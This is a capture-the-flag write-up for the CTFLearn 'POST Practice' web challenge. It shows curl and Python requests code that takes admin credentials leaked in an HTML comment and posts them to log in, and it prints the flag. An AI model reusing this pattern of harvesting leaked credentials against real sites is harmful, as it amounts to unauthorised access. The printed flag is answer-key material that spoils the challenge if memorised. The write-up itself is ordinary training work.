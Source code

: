# POST Practice
## tags: CTFLearn Web Intelagent

#### 40 points Medium
### Description
This website requires authentication, via POST. However, it seems as if someone has defaced our site. Maybe there is still some way to authenticate? http://165.227.106.113/post.php

we can use cUrl to send HTTP POST request to the site. 
```
$ curl http://165.227.106.113/post.php
<h1>This site takes POST data that you have not submitted!</h1><!-- username: admin | password: 71urlkufpsdnlkadsf -->
```

It seems we need username and password data to get the flag. Use -d to include the data of username and password into the body of HTTP request

```
$ curl "http://165.227.106.113/post.php" -d "username=admin&password=71urlkufpsdnlkadsf"
<h1>flag{p0st_d4t4_4ll_d4y}</h1>
```

Or

We can also use Python to send HTTP request by importing request.
First, make it sure request is install
```
$ python -m pip install requests
```

Python script
``` python
#!/usr/bin/python3

import requests

url = "http://165.227.106.113/post.php"

# Data to be sent in the request body (if it's a POST request)
data = {
        'username': 'admin', 
        'password': '71urlkufpsdnlkadsf'
}

# Making a POST request with headers
response = requests.post(url, data=data)

print(response.text)
```